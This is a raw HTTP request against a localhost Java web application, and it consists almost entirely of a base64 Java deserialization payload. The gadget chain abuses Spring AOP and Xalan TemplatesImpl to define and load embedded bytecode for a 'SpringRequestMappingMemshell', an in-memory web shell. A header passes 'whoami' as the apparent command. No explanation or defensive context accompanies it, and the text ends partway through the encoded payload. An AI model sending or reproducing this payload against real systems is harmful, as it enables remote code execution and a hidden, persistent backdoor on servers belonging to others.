X-Authorization: whoami
Content-Type: text/plain
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
Accept: */*
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Mode: cors
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Length: 156

rO0ABXNyACNqYXZheC5zd2luZy5ldmVudC5FdmVudExpc3RlbmVyTGlzdJFIzC1z3w7eAwAAeHB0ABdqYXZhLmxhbmcuSW50ZXJuYWxFcnJvcnNyABxqYXZheC5zd2luZy51bmRvLlVuZG9NYW5hZ2Vy8X6fHQgqwh0CAAJJAA5pbmRleE9mTmV4dEFkZEkABWxpbWl0eHIAHWphdmF4LnN3aW5nLnVuZG8uQ29tcG91bmRFZGl0pZ5QulPblf0CAAJaAAppblByb2dyZXNzTAAFZWRpdHN0ABJMamF2YS91dGlsL1ZlY3Rvcjt4cgAlamF2YXguc3dpbmcudW5kby5BYnN0cmFjdFVuZG9hYmxlRWRpdAgNG47tAgsQAgACWgAFYWxpdmVaAAtoYXNCZWVuRG9uZXhwAQEBc3IAEGphdmEudXRpbC5WZWN0b3LZl31bgDuvAQMAA0kAEWNhcGFjaXR5SW5jcmVtZW50SQAMZWxlbWVudENvdW50WwALZWxlbWVudERhdGF0ABNbTGphdmEvbGFuZy9PYmplY3Q7eHAAAAAAAAAAAXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAGRzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgA0b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLkpka0R5bmFtaWNBb3BQcm94eUzEtHEO65b8AgABTAAHYWR2aXNlZHQAMkxvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9mcmFtZXdvcmsvQWR2aXNlZFN1cHBvcnQ7eHBzcgAwb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLkFkdmlzZWRTdXBwb3J0JMuKPPqkxXUCAAZaAAtwcmVGaWx0ZXJlZEwAE2Fkdmlzb3JDaGFpbkZhY3Rvcnl0ADdMb3JnL3NwcmluZ2ZyYW1ld29yay9hb3AvZnJhbWV3b3JrL0Fkdmlzb3JDaGFpbkZhY3Rvcnk7TAAKYWR2aXNvcktleXQAEExqYXZhL3V0aWwvTGlzdDtMAAhhZHZpc29yc3EAfgAWTAAKaW50ZXJmYWNlc3EAfgAWTAAMdGFyZ2V0U291cmNldAAmTG9yZy9zcHJpbmdmcmFtZXdvcmsvYW9wL1RhcmdldFNvdXJjZTt4cgAtb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLlByb3h5Q29uZmlni0vz5qfg928CAAVaAAtleHBvc2VQcm94eVoABmZyb3plbloABm9wYXF1ZVoACG9wdGltaXplWgAQcHJveHlUYXJnZXRDbGFzc3hwAAAAAAAAc3IAPG9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5EZWZhdWx0QWR2aXNvckNoYWluRmFjdG9yeQPJ50kFqahMAgAAeHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhzcQB+ABwAAAABdwQAAAABc3IAOm9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLnN1cHBvcnQuRGVmYXVsdEludHJvZHVjdGlvbkFkdmlzb3IyJ/e3KvUFJAIAA0kABW9yZGVyTAAGYWR2aWNldAAcTG9yZy9hb3BhbGxpYW5jZS9hb3AvQWR2aWNlO0wACmludGVyZmFjZXN0AA9MamF2YS91dGlsL1NldDt4cH////9zfQAAAAIAH29yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLkFkdmlzb3IAK29yZy5hb3BhbGxpYW5jZS5pbnRlcmNlcHQuTWV0aG9kSW50ZXJjZXB0b3J4cQB+AA5zcQB+ABFzcQB+ABQAAAAAAABzcQB+ABpzcQB+ABwAAAAAdwQAAAAAeHEAfgAoc3EAfgAcAAAAAHcEAAAAAHhzcgA0b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AudGFyZ2V0LlNpbmdsZXRvblRhcmdldFNvdXJjZX1VbvXH+Pq6AgABTAAGdGFyZ2V0dAASTGphdmEvbGFuZy9PYmplY3Q7eHBzcgAzb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuYXNwZWN0ai5Bc3BlY3RKQXJvdW5kQWR2aWNlLy5r2rQIhZ8CAAB4cgA1b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuYXNwZWN0ai5BYnN0cmFjdEFzcGVjdEpBZHZpY2V0xadvqLsXbAIAEVoAFWFyZ3VtZW50c0ludHJvc3BlY3RlZEkAEGRlY2xhcmF0aW9uT3JkZXJJABZqb2luUG9pbnRBcmd1bWVudEluZGV4SQAgam9pblBvaW50U3RhdGljUGFydEFyZ3VtZW50SW5kZXhMABBhcmd1bWVudEJpbmRpbmdzdAAPTGphdmEvdXRpbC9NYXA7WwANYXJndW1lbnROYW1lc3QAE1tMamF2YS9sYW5nL1N0cmluZztMABVhc3BlY3RJbnN0YW5jZUZhY3Rvcnl0ADdMb3JnL3NwcmluZ2ZyYW1ld29yay9hb3AvYXNwZWN0ai9Bc3BlY3RJbnN0YW5jZUZhY3Rvcnk7TAAKYXNwZWN0TmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wADmRlY2xhcmluZ0NsYXNzdAARTGphdmEvbGFuZy9DbGFzcztMAB5kaXNjb3ZlcmVkUmV0dXJuaW5nR2VuZXJpY1R5cGV0ABhMamF2YS9sYW5nL3JlZmxlY3QvVHlwZTtMABdkaXNjb3ZlcmVkUmV0dXJuaW5nVHlwZXEAfgAzTAAWZGlzY292ZXJlZFRocm93aW5nVHlwZXEAfgAzTAAKbWV0aG9kTmFtZXEAfgAyWwAOcGFyYW1ldGVyVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzcztMAAhwb2ludGN1dHQAO0xvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9hc3BlY3RqL0FzcGVjdEpFeHByZXNzaW9uUG9pbnRjdXQ7TAANcmV0dXJuaW5nTmFtZXEAfgAyTAAMdGhyb3dpbmdOYW1lcQB+ADJ4cAAAAAAA//////////9wcHNyAD5vcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5hc3BlY3RqLlNpbmdsZXRvbkFzcGVjdEluc3RhbmNlRmFjdG9yeae1MYCvJzS0AgABTAAOYXNwZWN0SW5zdGFuY2VxAH4AK3hwc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3NxAH4ANUwABV9uYW1lcQB+ADJMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAAAAAAAdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAAT0DK/rq+AAAAPQDTCgACAAMHAAQMAAUABgEAEGphdmEvbGFuZy9PYmplY3QBAAY8aW5pdD4BAAMoKVYIAAgBAE9vcmcuYXBhY2hlLnNoaXJvLmNveW90ZS5zZXIuc3RkLkNsYXNzU2VyaWFsaXplcjdhYzE1MWQ2ZWJiNjRjZmNhMmNkMGY0ZjY0NmFkYmY2CQAKAAsHAAwMAA0ADgEAIG1lbS9TcHJpbmdSZXF1ZXN0TWFwcGluZ01lbXNoZWxsAQAJY2xhc3NOYW1lAQASTGphdmEvbGFuZy9TdHJpbmc7CQAKABAMABEAEgEABWNsYXp6AQARTGphdmEvbGFuZy9DbGFzczsIABQBAA9zdW4ubWlzYy5VbnNhZmUKABYAFwcAGAwAGQAaAQAPamF2YS9sYW5nL0NsYXNzAQAHZm9yTmFtZQEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsIABwBAAl0aGVVbnNhZmUKABYAHgwAHwAgAQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwoAIgAjBwAkDAAlACYBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAEADXNldEFjY2Vzc2libGUBAAQoWilWCgAiACgMACkAKgEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7BwAsAQAPc3VuL21pc2MvVW5zYWZlCgAWAC4MAC8AMAEACWdldE1vZHVsZQEAFCgpTGphdmEvbGFuZy9Nb2R1bGU7CAAyAQAGbW9kdWxlCgArADQMADUANgEAEW9iamVjdEZpZWxkT2Zmc2V0AQAcKExqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDspSgoAKwA4DAA5ADoBAA9nZXRBbmRTZXRPYmplY3QBADkoTGphdmEvbGFuZy9PYmplY3Q7SkxqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKADwAPQcAPgwAPwBAAQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwoAPABCDABDAEQBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7CgAWAEYMABkARwEAPShMamF2YS9sYW5nL1N0cmluZztaTGphdmEvbGFuZy9DbGFzc0xvYWRlcjspTGphdmEvbGFuZy9DbGFzczsJAEkASgcASwwATABNAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOxIAAABPDABQAFEBABdtYWtlQ29uY2F0V2l0aENvbnN0YW50cwEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7CgBTAFQHAFUMAFYAVwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWBwBZAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24HAFsBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIIAF0BAAtkZWZpbmVDbGFzcwcAXwEAAltCCQBhAGIHAGMMAGQAEgEAEWphdmEvbGFuZy9JbnRlZ2VyAQAEVFlQRQoAFgBmDABnAGgBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsKAGoAIwcAawEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAoAbQBuBwBvDABwAHEBABBqYXZhL3V0aWwvQmFzZTY0AQAKZ2V0RGVjb2RlcgEAHCgpTGphdmEvdXRpbC9CYXNlNjQkRGVjb2RlcjsIAHMBP2R5djY2dmdBQUFESUJoQUVBYUc5eVp5OWhjR0ZqYUdVdlkyOXRiVzl0Y3k5aVpXRnVkWFJwYkhNdlkyOTViM1JsTDJSbGMyVnlhV0ZzYVhwaGRHbHZiaTl6ZEdRdlJXNTFiVVJsYzJWeWFXRnNhWHBsY2pBeFptRTNNalF3TkdZeU9EUXdZbVZoTnpnd01XSXpPVGMwTmpCall6ZGxCd0FCQVFBUWFtRjJZUzlzWVc1bkwwOWlhbVZqZEFjQUF3RUFEV2RsZEZWeWJGQmhkSFJsY200QkFCUW9LVXhxWVhaaEwyeGhibWN2VTNSeWFXNW5Pd0VBQWk4cUNBQUhBUUFNWjJWMFEyeGhjM05PWVcxbEFRQlBiM0puTG1Gd1lXTm9aUzV6YUdseWJ5NWpiM2x2ZEdVdWMyVnlMbk4wWkM1RGJHRnpjMU5sY21saGJHbDZaWEkzWVdNeE5URmtObVZpWWpZMFkyWmpZVEpqWkRCbU5HWTJORFpoWkdKbU5nZ0FDZ0VBRDJkbGRFSmhjMlUyTkZOMGNtbHVad0VBRTJwaGRtRXZhVzh2U1U5RmVHTmxjSFJwYjI0SEFBMEJBQkJxWVhaaEwyeGhibWN2VTNSeWFXNW5Cd0FQQVJDNFNEUnpTVUZCUVVGQlFVRkJRVXN4V0VNemVHSldVbTR2Ym5sVVRsUmtVSE14VjNwa2MyODJPVEpEVGpsd2FIUmtkRE5WWW5KUE1FdExNbk0yZEhVMVFrNTNVbll3Y0hNeVZ6VnhhM2xWTWpOcWNXTkxUM1pIU2pSblVFWnhWazlqUkRoVGVGRmliM2xuWm10RFFsSkZVa1pGVkVVNUwzVkNjVXRuYjFkMkwyNHphVkpPYlROaVlqYzJaUzl3ZG1WalpUZzNNeTlLTDNZck9EVXpTQzkyVUVGM09FSlhRMFV5UTFkNVRrcFljRGhoYkhkT09XMXhLMXBIT0RSRlprMUdXVFJOZUc1VE9XRjNjR1pWZFRNd2RFVlVWMW8zVGxGVFdWUlZVMUJ4VVd4V2NYWkNSbUYwVjJSRVpHOW5WVUpFWmxSQlZWWkdZMGQxSzNSRE9XRkhSeXRuWVRGUGVFSnhWVU5CUlZwMU1WUkNNVkptVWtrek1tMVBlblJOWWxaaVUzbHBkME53VkhSVkwyVnlRMVl5VmpoblkybHRkVFkzVGtKNlVqVldObEpuU0RFNVQwSnlWMHg0WVhkbGFYUXlRMlJvWVZsME1tRjNURlF5WTBaVWNsTlFWVVowVFZGUFRsSkVhRk50YkRkTVMyaEhaSEZ0TUdsbEsxcFNXblpsUnpBMFMySkhkaTlRZW5Vd2VtZFZSa1JwWkhOdFEyOTNNVGx6SzI5WGRuSndURE5wYTAxRWMxTm1ZV3hyVDJ4VGFVcHpNRzk1VTJSbGFVbGpOMWRzVDJoVFRVZFFjazlqUzBwT2NXSklSbmxUYWk5SVZURk1UMGhJYVV0WlkwWmpkM0ZZUnpReGNUQlhOa1JIVnpCb1dWVmlRMVV3VlVsU09ETkRRbFpFVTJaUlR5OVlRbXd4V1dGSmNHTktUMFJSV1hsaGVIZEZlSFp2VVdwNVdHOW5iR3R1WTNCbFpuVTJWbmRyYzA5NUwyUmFSbmRQY2pWT1MwdDFWRTFWUm1SR2VFeFplRlp5ZURkdGVYWkhiemRhVDNkQ1NVMDRURWN6VjJGRGExZDNjM2hDU1hkT2IydG1OblJ5V2tORWFHUlhXVXRXUlN0RFRFdFFVMmxuYTBjMVVHaGxVak5xTlVzeVNHZDRjV05VTUdOcGVYQlpWR0pKWnpGU2RVTkVkbkZEYVdOSE5FaDJUekZvVDA4NWVFbG9TRTFMUVcwMmNsQmlORFZwTlV4WGFVbzJUMUF2U0dkV01VZFNXR3BvUTJodlJYQnFVM0ZoZGtJdldEUXhibTlzVTJFeFRuSndkMUJOZFRWSlpWUlhLMHhLYmxVeFIzVlNlWGhoVVc5cWNtWk5hRlYwZUcxU1VFNHlRM2wzV1VGNFFrMXhORVptV2pGaFRVdEljRmMzVkVKVWNqUndkVVo0Wnl0dWFrSkRkSEExTUVaVVpsQkxhSEprVFZCdFNsVnZkV1JIUTNKRk16VmpXVk5KT0dkVWJUZGFRWGgyWkRKSlRFOXphMnROTVZkVGRIQnRWVk5UTWxsVGIxUXhVVkk1VmtjMlVUZHpWWFJoZFZwelNEQlNNamRPUW5oV1NYZDRXV1ZrVWxOV2VHWXllVTB5T1VGb1pVMVpMMlJ5ZVdGVVlXOHlNRXM1TW1oS2JsUm9ZalpSTW1ZdmF6SnlTRXhvUjI5UWQzTXhRWEJWWjFKWFZHZ3JUV3RQYVZOblVWTmpRMWxEVEZwSk1YRXdVaXM0TVVOc1EySkRlVWd3VTBWcU5HSnJMMFoxTVZaa1RUWlBTekJWWTBnNU1rY3ZOVXRLWWsxM00zaG1ZWEpsTmpKelR6azNVa1prWVRGSWJtNDJWV0pPTWtkRWFHWnBSWFIzUVN0cFZVZGlVVlJDZDBSTWNGSkJlVFo2U1VNeVUxWktkRkZHU1dOWlRFUnZjMW96VFRsVlUweHRkRkpqUjBwUmNEWkJaWEpxVTNaQmFGbGlOakZ0YWxGeFNsSnNOREZKY0VrMGJGZHRlRk5LYzFOV2JHRXlRMlpHY0ZGbk1qQXdlRUZxVFcxNVJVOWFRMEV6VFhoQlFrUndWMmhCYW1GVE1GUkZlbFp3ZGxKM2NFeGlXbGxJV0dkR2FHSnhZMk4zU3pOclRGWnZWbWxwVVNzd2FqQTVTbnBXU1hCelIzSTRWblI2Y0hoSFJ6aFVZMFJLU1UwMVdUYzRRVFJoZGpkbFFWaE5SemRDU1hCS05UbG1NRE5vYVZCalQwMUZWMmR5V2poMlZXMTBSa05GVDFCb1RVTlVWR2RPY25oSVIzWkNaWEIyV0dWUmNtZFZka1U1WjNwdFZITkRhalZCVUUxUVVtZGthQ3QxY25wWFZ6aG5MMmRqYVV0M2FWVllOM05EU0c1UVoyZFFhbmR0WnpneFpFSlNPSGhOZW1oVVJYUXpaV2xZUkRoTFJEZHRlRUpHT0ZoSFEzRmFiME0wU1RGUVlraG1aMFZaZVZkYWFYUmlNbWhhVUVJeWRXRnRlblJhYzBSQ1NHNTFlR2gxVldVelFXRkhNR0ZsZUVock4wUjFSMVF3ZFZWUWEwNHpWR1pGVDJaSk5VaHNhWFZUZEUxemFFMHhMMlUzWjB0eFVrZE1jM2hrT1hCcWRIVXhMM0JVVFhjNGJqTnJNMFpMTUhkdlNsUk9hM1IyVjI4MFlYUjVMME13WlhST1N6Tllkelp4TUVwTEwyOUllRGxNUmxsc2IxQlhjV3RMVW1oclVtTnBhazl6UnpaSWRVa3ZibU00TDNkUE0yMVRXV05JZEVzelRYaGlSMmxhVW1Gd2FXTlVWMFpRVGpWblkydFVhblpzYTJoWE1VdEtUbEpDY25Oa1ZFOTFTRmd4UkRaYWFqQnJjVXBLWmtFMFowdDJaVzVWT1RkMGRrMVNObVJLU1RGUFVYUlpaVEZpVjNCNVJFZEtNRFZXZVZsTmFXVlVXVEZGVlZkSVVrOXZTbTV1VVZGdGNWZGFNRzU0TlhnclNreExiVlpLZWs1cU0wVXlUMUpKTlZsNWNsQm5lVEZ1TVdaNWVtVTJkbWRGWlU1TFVFdDBla055TlhVelEwdFVaWEZZWjAxWlNHdzFLMjFOWjIwNGVWSk5OMWhDVVZobVRYTk1kamRQWlhRMFRuTkZMM0YzVW5CUFFUZGlUSHBQVEhwQlZsQk5UM00zVGxaclJubHljbk5CZG1aTk9YVjJXamd5Tm5Wa2JsbGpaVWczT0VwaVowTlVlbEEzUkdWS1pEaHNVemM0U1V4S2RsVlFaVmQ2UWxkR1VXNVJhM3B6T0dwR2RHTkxLMkUyU2xJMGMwWnhjM0U1YW1wM2J5OTNXVE5yTHk5alVYTTBTak5hVlVZdmFWQlhkVkZ0VFVoMWQzTXZkMk15YmtsTU0yazNhMlp6UzA1VlIycGtWMjVvY2pCM1RHWTFNamM1YWxwd01sZDBkbWR2ZEVaMGFHMHZlR1U1YTNrdmJEZEdNV0ZvVVdNM0szbEtRMDV4TkUxU09YVlJUeTlOYmxVd1MxTlVTVFZEVTJ3dmRUVmxkR3hqTjJaemVpOXNTME53TDBKWU5XMVRNa053ZERsMmIwTnVjMEppYmxCblNDdG9jaTlNYTNaclVHRlpjbUpvVW5KVmVYUnRMMkZGWkhscVFqTk1TamRDYW1kc2RVUlVZMU12T0ZJNWNIbEJhV2hxYldWU1UycHhSV3RGUTA1UFVFY3dPR015VTBaNVozQXhjMUVyWWxSUk5FSk1LelkxZFZKeU1qbEhZbWxDTWxGeVlYSmFOM2R1Umt0bGVrTkpWM1E0WmpCeFRrcEhWM3BOYjBWc1pURjZRMHRWY0RReWQybFlSMVpYTnpKWGFFcE9SMXB1TUZkQmIxZ3dSUzlOYUhaeVdFZExjVzFHWVVOS09GWXdNR2xrVkdkWFZHMXZObEJOTW5wYWFFeDVVa3RvV25ONFNsZGFiWFV2YlhnNGFGSlNlSEZLTVZGTk4waFhWR3BoZGtsdk5YZDFUVlZ6T0ZaalpWTnJkVTVZY1hGWVNFczFlRUZYZVZGWWRHRjZTR1pvVDJ4NlVGVjRSVXh4VmxBeVdETTJlRmRIUkZRdk16VTNVMVJxZGtWVmRFczRUR2haVDJ0RlZubEtSRzV1WTNwNVVFWm1ZblIxV25SV1RXbzJTRVpGVUVoYVMzUjBXbUp3TmpKVFdIaHhPSGhMTkVWemRrNTJUbEpGYXpSb1NTdG9XbkpKTUhBd1NXaDFZa3hEVkU1SlkzaFZWM2xoVkZabFNFbE1lVVpvVlRadWNXMVdjMWRuYnpOSFRtTjFOalZSTTJkeGNqbE9helZFUzA1d1dsZDVVVVpYVmpsTlNrdzFOR2s0U3psWEt6VmpkRUZvTVhKUVpFTmhOVkV4Vmxkb1VWQm1jVUpyTVdKV1kyWnRWWEJFUVV4dEwzQjFUelJSUnpOdGNFaFZaMGQxT1ZoQmRHdFFZamt5SzBvM0szaHhZMjlvYlV4SFNXMHlWVUUyUmt0R1dXWnRTVU5qVFdsUVdsZE9ZMkZKZUVNeGFqVnFaazFGV1ZONmFtcDBlakptZUZoNGNtZHdWWHAzUmpBMWFFZHRWbUowUmpCUU5UZHFNRWhKTDFoeWVWaDVlRmswSzFwUlNrTTRlRWhMVW1GUlNGaERXa3hDZVc1SFNVdzFiRm80VWtZMlJUVnJjbUYxYzIxdlNVMDRaa3RQTkRKNWNtbElUVkJ2U0hsT1FtRmpkMGRKS3pBeGFESkRjRlZ1VlZReWNXRjViMDVCYUZwVUsyOVlkMWxaYldoeU9IbFZiV1JGYmxwNlRtOURNM05XVjFVd2VXMXFaR3RPUW1SWVZteHRja2hvY0VNdlprZGpVMHgwYURkMlNUaFZZMVUxVldOV1ZWVnRaVWxaY2xoTmFVaHhWMGhFWVU5V1lWZDBjRGxFVjFWVVVIWkVhV2t5V1RkQlZtNWpZVmRNYzFCM1ltRlhkRkU1YVZKNGNGVXhWbGRzWTJSaWVFUklUU3R2T0VkSlRqZFlZMkZwYjNJMGNrdEhiMWR1Y21vME1EUmtTM1pwTVV4dk1tODFOVFprY1RKMlVsTlBiMHR0Y2xGUE5uY3lMM0V6UzBkV1pFZHFUMnRPY1VaVE4wZEtZVkp3TkZwNFZVazFaMGR0ZDB0TVoyOHhRelJtWld0bVNYaDNTek1yVG1zeVdYaG5kRzEzV21oWmJERlNiMnBTVEhkYVNpdHRVRzlpUms5MFNtVXJMMmhSTUdZelZXd3ZZa3g1UlZVMmFqZDZVbWxZWW1KeFRrSktSRk5GTW1adWMySkNUa3MxZEVvMGRTOVRibkJ4VVZOVk9Ya3pielp1SzJOUVoyMW1hR2x2VFN0NllVcFliR0pUTUdoc04xWXdaM1p3T0ZWTVUwOTFhbmg0V0doa05XbDNNMGROUm05SlkxaFdia0Z1UkU5NlkzTkpNbE5xZUZnM0sxUktkSEJNU1hOVVExZHRNR0ZFVFdsSVZHaEpiems1T0VOdEx6TldOV1VyVlRWNlFuVTVUelIyV25KcUt6bFBOSE0yVFcxcVlVOXNiamRST1dsTlRtUXhkRXRPYm1SNWNUUmpkVkpNYlhOc05UTmxaV2RhT1N0eVR6QnZMMXBVUW01eldtNUhNakJsYlRKVE5VODFMMFpaZVhablMxZHhNREJZYTB3dmVscG5TWGN4Y2xGcUx6QklRV2R5WlZoQmVXMTVlbGxTUldSaVZXTTBVRGRCTTI5SlQxWnNXRWN6YWpnelNqWjBTVlU0Wm01TE1WbDNRbUpFVjBFeVJUZDRlVUZ1VFVSaWFsRm5WMjlQWWpoQldrczRWRkF3TlZweFRtNUVWMXAwVTJKSE5rSnplbWRZU1ZGaWVVdEpSWE5CUWpOS2QwUnpSVXRIZURCaWFubE1UVUZxZFVGcFIxSnlSM1U0VWxSeWNqRkxPSE12VEd0UFNFbEdaSGxFVERWblFWY3JORzEyUkZKTWVrdHpObWQ1WTJGaVpGWnVPRWRTYW10alpGZGxVaXRsUnpoWlVFeElaMFZNSzFjNVkyWkthVWRxS3psQk9EazNZazFRTkhCVlEycDJaRXBxV1RSSlVEUjZZMWR3VUVkSVVuRllVMjh4YWxSbFMyeFNPR1JvVEZoNE4wZExlRms0YVhOV2VXWm9jVmRNWjJKaU1GUlNaVWhqU1M5UVZXOWhjbmN5ZW14RVRYVmlMMWhaTTAxTWFWVlpZVVl4V1hKVVpVeHdjbE5PWjJGSVZHNHJUWHBuYzFRMk16UkhTMWt4VDJzNFRHVTFaa2hQVTFOTFNDOVpWV1Y0ZUhCTlYxVXpValZ6ZUVabk1reEhVVWx1VlVjeGJFRkpkRnBoVmtoMVMxVTJUR1ZrYlU1VGEyMHJaME5tTHpCcGJYaFRSemR0TmtOWU5XaFdkelZvY0V0aGNYVndhSE5WZDJGT1lWaFNibTR5Tld3eFltVm9jVTgwYVhwT2VsQkJiRFYwWXk5SlFtTk5LM3BQVm5wQ05FNHhTamhPYVU0M1VDOVRkVFV4T0dKRU0xbENkakpOWjJWMVdXeENabnBoTjI5SGEyOUpWVWxhUjB0VlIzRTJZV0pOUlVsWlVuaHdZMjgxVW01emVDOVBjM0ZUSzJwVU1XZFNSak5pTUdrMmJFbFZWazVUZFV0SFRHTm9kM2RuZFdodE1XOTVhakZJTUdaQk5tRlpWWEI1Tkc0clp6ZExWSFZDU1ZwNGFWZE9Na3czV201a1RsaHBZemhvSzJkaVduTktOMjFyUjJ0VlNscEVia3R6Tlhod1VGQnNkVUpQVUhOcFNIQlJWbWxNVDBnNFRFUk5WemczVHpCRVNYSTNTMGxOV0RoYVdFZEZSWFZOVWpGbWVHUmpXVTU1TVVjdldHVk5NRVJYU0ZWWVdXVldaa0ZPUWxrNGNtVkZURUpyZDNGbFdXaFJRMGsyZUVGNFdrNTBTeko2WlVkTFJHWm1VVEJzUTI4MlRVVkRlRGRKVTI1RVZrZHNiVVpDWTJKTlYzaHVNaXRKVm14aVUxUnFZVGhhZUZobmJGVjVZall6WVV4UFUwaFBNMWRLYmtwaWNpOU5ZbkJ1TWxwdU5WaHRabTA1YTJJdmFtWnhUMnRrVGxNMFVtSXpNVkZTYkd0MGQzVlBVakJwVVV0U1JuVXdXa0YyU2xaemFqaHRWVmxDWW5NMmNucHFUMnhoUkdsWGNXSmxaRlo1T1c1MVdIVkNjR0l2UnpGclVtSnFTMDgzYlV4MVN6Rm5iWEZ2ZDAxeU9HTkhXVEppYkhac1pGVkhMMnhtYVhoYVVuYzRUMUphWWswdlpIb3pNR2s1Y0dNeGRrNHJOalZQY0c1YUwxTlBPRmh4UkVKcGNtcERja0p6ZUhVNVdUZ3dURGhhWVRoRE1VaHJRa0YxZUZKeGQyUnlVU3RET1RSV2IzcE1WVXhXVVdKMFFrMUpUelY2VlVkWFYwVlBjMU0zU0RKSGNXOVpXVlo1YVhjd2JsVmxORmRzTlhwRk5HNU9NVUpEVEZobVltaFpTa3d5V1VJdmQxaDFkVTgzTHpoWldrRkJRVDBJQUJFQkFBWThhVzVwZEQ0QkFCVW9UR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVllNQUJNQUZBb0FFQUFWQVFBREtDbFdBUUFUYW1GMllTOXNZVzVuTDBWNFkyVndkR2x2YmdjQUdBd0FFd0FYQ2dBRUFCb0JBQTlpZVhCaGMzTktSRXROYjJSMWJHVU1BQndBRndvQUFnQWRBUUFLWjJWMFEyOXVkR1Y0ZEFFQUVpZ3BUR3BoZG1FdmRYUnBiQzlNYVhOME93d0FId0FnQ2dBQ0FDRUJBQTVxWVhaaEwzVjBhV3d2VEdsemRBY0FJd0VBQ0dsMFpYSmhkRzl5QVFBV0tDbE1hbUYyWVM5MWRHbHNMMGwwWlhKaGRHOXlPd3dBSlFBbUN3QWtBQ2NCQUJKcVlYWmhMM1YwYVd3dlNYUmxjbUYwYjNJSEFDa0JBQWRvWVhOT1pYaDBBUUFES0NsYURBQXJBQ3dMQUNvQUxRRUFCRzVsZUhRQkFCUW9LVXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPd3dBTHdBd0N3QXFBREVCQUFsblpYUkdhV3gwWlhJQkFDWW9UR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdLVXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPd3dBTXdBMENnQUNBRFVCQUFsaFpHUkdhV3gwWlhJQkFDY29UR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdUR3BoZG1FdmJHRnVaeTlQWW1wbFkzUTdLVllNQURjQU9Bb0FBZ0E1QVFBbUtDbE1hbUYyWVM5MWRHbHNMMHhwYzNROFRHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN1Bqc0JBQ0JxWVhaaEwyeGhibWN2U1d4c1pXZGhiRUZqWTJWemMwVjRZMlZ3ZEdsdmJnY0FQQUVBSDJwaGRtRXZiR0Z1Wnk5T2IxTjFZMmhOWlhSb2IyUkZlR05sY0hScGIyNEhBRDRCQUN0cVlYWmhMMnhoYm1jdmNtVm1iR1ZqZEM5SmJuWnZZMkYwYVc5dVZHRnlaMlYwUlhoalpYQjBhVzl1QndCQUFRQVRhbUYyWVM5MWRHbHNMMEZ5Y21GNVRHbHpkQWNBUWdvQVF3QWFBUUFRYW1GMllTOXNZVzVuTDFSb2NtVmhaQWNBUlFFQUNtZGxkRlJvY21WaFpITUlBRWNCQUF4cGJuWnZhMlZOWlhSb2IyUUJBRGdvVEdwaGRtRXZiR0Z1Wnk5UFltcGxZM1E3VEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3